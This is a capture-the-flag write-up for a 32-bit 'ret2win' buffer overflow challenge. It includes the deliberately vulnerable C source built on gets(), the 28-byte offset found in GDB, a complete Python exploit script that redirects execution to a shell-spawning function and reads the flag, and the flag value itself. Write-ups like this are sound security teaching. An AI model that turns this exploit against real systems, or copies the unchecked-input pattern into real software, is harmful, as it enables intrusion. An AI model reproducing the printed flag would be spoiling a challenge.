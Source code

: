 # Baby Buffer Overflow - 32bit ✅

## Challenge Description
> ![image](https://github.com/user-attachments/assets/4d48194c-d8f7-4766-8078-737f5ad03d9a)


## Approach
1. The challenge gives us a binary and some source code to analyze.   

![image](https://github.com/user-attachments/assets/a19b9ac8-9c70-4947-9d9e-4da63035dad0)


2. From the code, we can see that the vuln function contains a buffer overflow vulnerability. It reads data into a 16-byte buffer using gets(), which doesn’t check for overflow—perfect for exploiting! This type of challenge is called `ret2win` (return to win(), which is a typical function name for such challenges).

```C
#include <stdio.h>
#include <unistd.h>

//gcc -fno-pie -no-pie -Wno-implicit-function-declaration -fno-stack-protector -m32 babybufov.c -o babybufov

void target(){
    puts("Jackpot!");
    char* executable="/bin/bash";
    char* argv[]={executable, NULL};
    execve(executable,argv,NULL);
}

int vuln(){
    char buf[16];
    gets(buf);
    return 0;
}

int main(){
    setbuf(stdin,NULL);
    setbuf(stdout,NULL);
    puts("Gimme some data!");
    fflush(stdout);
    vuln();
    puts("Failed... :(");
}
```
The goal is to overflow the buffer in vuln to overwrite the return address with the address of `target`. When vuln finishes, it will *return* to `target` instead of going back to `main`, executing the shell function in `target`.

2. Since this is a 32-bit binary, it relies on specific libraries:  

![image](https://github.com/user-attachments/assets/97d43191-7b3a-48e7-ad36-820fc3b40a1d)

To ensure it runs properly, I had to install the required 32-bit library:

```bash
sudo apt install musl:i386
```

3. Using IDA Pro, I found the address of the `target()`:

![image](https://github.com/user-attachments/assets/60b49796-2828-4831-9a33-921f641c6aca)

And the `vuln()` takes 24 characters. 

![image](https://github.com/user-attachments/assets/37331b01-a13a-4e0e-bf17-0fa3c3f12f70)

4. In a 32-bit architecture, whenever a buffer is overflown, the register eip gets loaded with the overwritten “saved return address” from stack. To exploit this vulnerability, we need to know the exact number of bytes to overflow the buffer and reach the return address. With a little debugging in GDB, I found that the offset is 28 bytes.

![image](https://github.com/user-attachments/assets/2fec7958-97fc-4a57-b96c-8a9b7d99971a)

5. Using the script below we can overflow and get to the `target`.

```python
import socket
import struct

# Address of the target function in little-endian format
target_addr = struct.pack('<I', 0x80491F5)  # Address of the target function

# Set the correct buffer size
buffer_size = 28  # Buffer size to reach the saved return address

# Craft the payload
payload = b'A' * buffer_size + target_addr

# Connect to the remote server
host = 'challenge.ctf.games'
port = 32336

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((host, port))

    # Receive the initial message from the server
    initial_message = s.recv(1024).decode()
    print("Initial Message:", initial_message)

    # Send the exploit payload
    s.send(payload + b'\n')
    print("Payload Sent:", payload)

    # Send the command to list files
    command = b'ls\n'  # List files
    s.send(command)
    print("Command Sent:", command)

    # Wait for the response after the ls command
    while True:
        try:
            data = s.recv(1024).decode()
            if data:
                print("Response:", data)
                if "flag" in data:  # If flag file is listed, read it
                    # Now send command to read the flag
                    read_flag_command = b'cat flag\n'
                    s.send(read_flag_command)
                    print("Command to read flag sent.")
            else:
                print("No more data received.")
                break
        except Exception as e:
            print("Error:", e)
            break

```

6. Running the script triggers the overflow, and we jump straight to `target()`. The shell opens up, and we can easily grab the flag. 

![image](https://github.com/user-attachments/assets/4cef3cbc-f686-4dce-b048-9f65be320e85)

## Flag
flag{4cd3b4079393e861af489ca063373f98}




   



